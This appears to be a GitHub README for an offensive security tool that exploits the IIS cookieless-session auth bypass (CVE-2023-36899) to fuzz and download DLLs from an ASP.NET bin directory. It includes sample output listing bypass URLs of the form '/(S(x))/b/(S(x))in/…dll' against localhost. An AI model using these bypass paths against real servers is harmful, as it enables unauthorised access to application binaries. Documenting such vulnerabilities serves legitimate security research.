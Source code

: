# Cookieless-Session-Bypasser-IIS
Used to perform cookieless session bypasses to reach into the bin directory and fuzz dll names and download them if the bug is present  hate off to the iis god himself and critical thinking poscast and SHubs without their constant knowledge drops i would have never learned this 


Article from the iis god himself
https://soroush.me/blog/2023/08/cookieless-duodrop-iis-auth-bypass-app-pool-privesc-in-asp-net-framework-cve-2023-36899/


EXAMPLE OUTPUT
================


Found URLs:
[http://127.0.0.1:8200//(S(x))/b/(S(x))in/Newtonsoft.Json.dll,
http://127.0.0.1:83//(S(x))/b/(S(x))in/Newtonsoft.Json.dll,
http://127.0.0.1:8001//(S(x))/b/(S(x))in/Newtonsoft.Json.dll,
http://127.0.0.1:8086//(S(x))/b/(S(x))in/Newtonsoft.Json.dll,
https://127.0.0.1//(S(x))/b/(S(x))in/Newtonsoft.Json.dll,
http://127.0.0.1:81//(S(x))/b/(S(x))in/Newtonsoft.Json.dll,
http://127.0.0.1:81//(S(x))/b/(S(x))in/Newtonsoft.Json.dll,
http://127.0.0.1:8081//(S(x))/b/(S(x))in/Newtonsoft.Json.dll,
https://127.0.0.1//(S(x))/b/(S(x))in/Newtonsoft.Json.dll,
https://127.0.0.1//(S(x))/b/(S(x))in/Newtonsoft.Json.dll,
https://127.0.0.1//(S(x))/b/(S(x))in/Newtonsoft.Json.dll,
http://127.0.0.1:8085//(S(x))/b/(S(x))in/Newtonsoft.Json.dll,
https://127.0.0.1//(S(x))/b/(S(x))in/Newtonsoft.Json.dll,
https://127.0.0.1//(S(x))/b/(S(x))in/Newtonsoft.Json.dll,
http://127.0.0.1:81//(S(x))/b/(S(x))in/Newtonsoft.Json.dll,
http://127.0.0.1:81//(S(x))/b/(S(x))in/Newtonsoft.Json.dll]
